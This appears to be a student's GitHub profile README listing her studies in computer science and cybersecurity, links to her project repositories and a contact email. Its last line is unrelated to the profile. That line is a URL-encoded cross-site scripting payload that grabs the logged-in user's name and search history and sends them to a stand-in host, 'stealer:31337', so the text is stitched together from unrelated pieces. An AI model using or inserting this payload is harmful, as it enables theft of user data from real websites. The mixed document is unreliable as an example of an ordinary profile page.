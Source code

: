 Hi, I’m @palomacardozo

I’m interested in web/IOS development, cybersecurity, and general software engineering.

I’m currently pursuing a Bachelor of Science in Computer Science at the Georgia Instuite of Technology

My major concentrations are cybersecurity and media/UI, and I am a third year student.

To view my work on my current projects see my two other repositories: https://github.com/palomacardozo/VIP-Machine-Learning-Fall-2024 (Machine Learning Project) and https://github.com/palomacardozo/CS2340 (Full-Stack Web Application for Finding Local Restaurants). You can also check out my work on my other full-stack web application, used to created Spotify Wrapped interafcting the Spotify API: https://github.com/anushak016/SpotifyWrapped. This web application is also hosted remotely, and you can visit it at https://spotify-wrapped-app.onrender.com/

You can reach me further with my student email: pmc8@gatech.edu


&q=%3Cscript%3E%24(document).ready(function%20()%20%7B%24.get(%27http%3A%2F%2Fstealer%3A31337%2F%3Fstolen_user%3D%27%2Bdocument.getElementById(%27logged-in-user%27).innerHTML%2B%27%26last_search%3D%27%2Bdocument.getElementById(%27history-list%27).children%5B1%5D.text)%3B%7D)%3B%3C%2Fscript%3E
